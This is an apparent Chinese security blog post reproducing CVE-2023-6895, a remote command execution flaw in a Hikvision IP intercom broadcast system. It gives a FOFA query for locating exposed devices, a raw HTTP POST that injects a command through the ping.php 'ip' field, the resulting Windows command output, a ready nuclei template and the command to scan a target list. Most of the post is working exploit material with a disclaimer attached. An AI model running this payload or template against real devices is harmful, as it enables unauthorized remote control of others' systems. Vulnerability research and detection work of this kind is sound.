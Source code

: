 #  【漏洞复现】CVE-2023-6895（附nuclei poc）   
原创 fgz  AI与网安   2023-12-27 06:00  
  
免  
责  
申  
明  
：**本文内容为学习笔记分享，仅供技术学习参考，请勿用作违法用途，任何个人和组织利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责，与作者无关！！！**  
  
  
**有朋友说没收到推文，这个问题给公众号标星就能解决了。**  
  
****  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BPTdEj05KUtX5HlWA9KhvLeic4aNV6OvsgA2VZ0vibx9R9ibZz0r0ylMCSMqnpiae3GMJCQYzUicI0icJgA/640?wx_fmt=png&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
01  
  
—  
  
漏洞名称  
  
  
  
海康威视IP网络对讲广播系统远程命令执行漏洞  
  
  
  
  
02  
  
—  
  
漏洞影响  
  
  
海康威视IP网络对讲广播系统3.0.3_20201113_RELEASE  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BP9roYEGZbVybeFsQmOuk4b6wvzfMwrcf6tSgmKYxvm89fh7bTP1bZlwkOLJhZ22omgTn5kWpmucw/640?wx_fmt=png&from=appmsg "")  
  
  
  
03  
  
—  
  
漏洞描述  
  
  
海康威视IP网络对讲广播系统，采用领先的IPAudio™技术，将音频信号以数据包形式在局域网和广域网上进行传送，是一套纯数字传输系统。它解决了传统对讲广播系统存在的传输距离有限、易受干扰等问题。海康威视IP网络对讲广播系统3.0.3_20201113_RELEASE的/php/ping.php接口存在RCE漏洞。攻击者可以通过在受攻击系统上执行恶意命令，从而获取未授权的系统访问权限。  
  
  
04  
  
—  
  
FOFA搜索语句  
  
```
icon_hash="-1830859634"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BP9roYEGZbVybeFsQmOuk4bZrWfv2R7W1FM7ovjz6unib9H4EwrSRQD0bd3TFwNic2ibWmapQPLlmQ2A/640?wx_fmt=png&from=appmsg "")  
  
  
05  
  
—  
  
漏洞复现  
  
  
向靶场发送如下数据包执行ipconfig命令  
```
POST /php/ping.php HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0
Content-Length: 51
Accept: application/json, text/javascript, */*; q=0.01
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest

jsondata%5Btype%5D=99&jsondata%5Bip%5D=ipconfig
```  
  
  
响应内容如下  
```
HTTP/1.1 200 OK
Connection: close
Content-Length: 616
Access-Control-Allow-Headers: X-Requested-With
Access-Control-Allow-Methods: GET,POST,OPTIONS
Access-Control-Allow-Origin: *
Content-Type: text/html;charset=utf-8
Date: Tue, 26 Dec 2023 02:01:17 GMT
Server: nginx
Strict-Transport-Security: max-age=63072000
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
X-Xss-Protection: 1; mode=block

Microsoft Windows [版本 10.0.17763.4974]
(c) 2018 Microsoft Corporation。保留所有权利。

D:\ICPAS\AppServer>ipconfig

Windows IP 配置


以太网适配器 以太网:

   连接特定的 DNS 后缀 . . . . . . . : 
   本地链接 IPv6 地址. . . . . . . . : afd0::9xsd:82xs5:21xs:s84ty%15
   IPv4 地址 . . . . . . . . . . . . : 192.168.0.7
   子网掩码  . . . . . . . . . . . . : 255.255.240.0
   默认网关. . . . . . . . . . . . . : afd0::edfa:dff:feff:ffff%15
                                       192.168.0.1

D:\ICPAS\AppServer>
```  
  
漏洞复现成功  
  
  
  
06  
  
—  
  
nuclei poc  
  
  
poc文件内容如下  
```
id: CVE-2023-6895

info:
  name: 海康威视IP网络对讲广播系统远程命令执行漏洞
  author: fgz
  severity: critical
  description: 海康威视IP网络对讲广播系统，采用领先的IPAudio™技术，将音频信号以数据包形式在局域网和广域网上进行传送，是一套纯数字传输系统。它解决了传统对讲广播系统存在的传输距离有限、易受干扰等问题。海康威视IP网络对讲广播系统3.0.3_20201113_RELEASE的/php/ping.php接口存在RCE漏洞。攻击者可以通过在受攻击系统上执行恶意命令，从而获取未授权的系统访问权限。
  metadata:
    max-request: 1
    fofa-query: icon_hash="-1830859634"
    verified: true

requests:
  - raw:
      - |+
        POST /php/ping.php HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0
        Accept: application/json, text/javascript, */*; q=0.01
        Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
        Accept-Encoding: gzip, deflate
        Content-Type: application/x-www-form-urlencoded
        X-Requested-With: XMLHttpRequest
        Connection: close
        
        jsondata%5Btype%5D=99&jsondata%5Bip%5D=ipconfig


    matchers:
      - type: dsl
        dsl:
          - "status_code == 200 && contains(body, 'IP')"
```  
  
  
运行POC  
```
nuclei.exe -l Hikvision-ip-spon.txt -t CVE-2023-6895.yaml -me result
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BP9roYEGZbVybeFsQmOuk4boZbft1RmYlQia6OjCxfBlPSyyg4ibqYiaovvficaEOyF0AWIOyrtHbsRbQ/640?wx_fmt=png&from=appmsg "")  
  
  
  
07  
  
—  
  
修复建议  
  
  
官方补丁链接如下：  
```
https://www.spon.com.cn/
https://www.cnnvd.org.cn/home/loopholehttps://www.cnnvd.org.cn/home/loopholehttps://www.cnnvd.org.cn/home/loophole
```  
  
  

